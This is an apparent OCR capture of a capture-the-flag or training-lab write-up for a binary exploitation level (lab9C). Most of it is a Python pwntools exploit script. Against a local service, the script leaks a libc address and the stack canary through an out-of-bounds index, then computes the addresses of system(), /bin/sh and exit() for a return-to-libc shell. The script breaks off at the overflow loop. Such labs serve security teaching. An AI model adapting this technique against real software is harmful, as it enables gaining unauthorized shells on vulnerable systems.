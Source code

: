 ```bash
  1443: 00040190    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```
**_exploit.py_**
```python
#!/usr/bin/env python2

from pwn import *

#
# setup context
#
#context.log_level = 'debug'

#
# start process
#
#r = process('/levels/lab09/lab9C')
r = remote('127.0.0.1', 9943)

#
# Stage 1, Info leak
#

print "Stage 1, Info leak"
r.recvuntil("choice: ")
r.sendline("2")
r.recvuntil("index: ")
r.sendline("261")

tmp = r.recvline()
tmp = int(tmp.split(" ")[2], 10)

ret_libc_offset = 0x19a83
ret_libc_addr = tmp & 0xffffffff
libc_base = ret_libc_addr - ret_libc_offset

print "libc base address is  %#x" % libc_base

r.recvuntil("choice: ")
r.sendline("2")
r.recvuntil("index: ")
r.sendline("257")

tmp = r.recvline()
tmp = int(tmp.split(" ")[2], 10)

canary = tmp & 0xffffffff

print "canary is             %#x" % canary

#
# Stage 2, system()
#
print "Stage 2, system()"
bin_sh_addr = 0x160a24 + libc_base
system_addr = 0x40190  + libc_base
exit_addr   = 0x331e0  + libc_base

print "/bin/sh is located at %#x" % bin_sh_addr
print "system() address is   %#x" % system_addr

i = 0
while i < 260:
```